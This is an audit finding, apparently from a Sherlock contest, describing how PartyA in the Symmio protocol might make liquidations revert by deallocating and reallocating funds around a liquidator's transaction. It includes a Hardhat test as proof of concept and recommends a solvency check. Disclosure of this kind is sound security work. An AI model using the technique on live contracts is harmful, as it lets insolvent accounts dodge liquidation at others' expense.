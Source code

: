 simon135

high

# PartyA can control liquidations in `liquidatePartyA`

## Summary
PartyA can control who becomes the liquidator and cause issues and reverting 
## Vulnerability Detail
The PartyA Can control who becomes the liquidator  by deallocating and relocating in back-running and frontrunning way 
steps:
PartyA is underWater by -5 and they relocate 5 and they deallocate 5 and get back to the underwater state they can  fronrun and backrun causing the  liquidator to revert 
## Impact
https://github.com/sherlock-audit/2023-06-symmetrical/blob/6d2b64b6732fcfbd07c8217897dd233dbb6cd1f5/symmio-core/contracts/facets/liquidation/LiquidationFacetImpl.sol#L24
The impact is reverted and controlled when they get liquidated 
## Code Snippet
```js 
 it("PartyA can get out of liqudations H-02 ",async function () {
 const context : RunContext= this.context;
     const uSigner = await ethers.getImpersonatedSigner(ethers.Wallet.createRandom().address);
     const user = new User(context, uSigner);
     await user.setup();
    await user.setNativeBalance(100n ** 18n);
 await user.setBalances(decimal(5000), decimal(5000),decimal(5000));
 const liquidator=context.signers.liquidator
     const hSigner = await ethers.getImpersonatedSigner(ethers.Wallet.createRandom().address);
     const hedger = new Hedger(context, hSigner);
     await hedger.setNativeBalance(100n ** 18n);
     await hedger.setBalances(decimal(5000), decimal(5000));
     await hedger.register();
     let b = decimal(5000);
     await user.setBalances(b, b, b);
         await user.sendQuote(
           Builder<QuoteRequest>()
             .partyBWhiteList([])
             .quantity("32000000000000000")
             .mm("69706470325210735106")
             .cva("14394116573201404621")
             .lf("8104916153486468905")
             .price("22207600000000000000000")
             .upnlSig(getDummySingleUpnlAndPriceSig("20817400000000000000000"))
             .maxInterestRate(0)
             .symbolId(1)
             .orderType(OrderType.MARKET)
             .positionType(PositionType.SHORT)
             .deadline("100000000000000000")
             .build(),
         );
             await hedger.lockQuote(1);
             await hedger.openPosition(
               1,
               Builder<OpenRequest>()
                 .filledAmount("32000000000000000")
                 .openPrice("22207600000000000000000")
                 .price("20817400000000000000000")
                 .upnlPartyA(0)
                 .upnlPartyB(0)
                 .build(),
             );
             await context.accountFacet.connect(uSigner).deallocate("5000000000000000000000", await getDummySingleUpnlSig("0"));
         await expect( context.liquidationFacet
             .connect(liquidator)
             .liquidatePartyA(uSigner.getAddress(), await getDummySingleUpnlSig("0")),).to.be.reverted;
             await context.accountFacet.connect(uSigner).allocate("5000000000000000000000");

 });
```
## Tool used

Manual Review

## Recommendation
add a solvent check to allocate so PartyA cant top up and top down their positions causing a loss  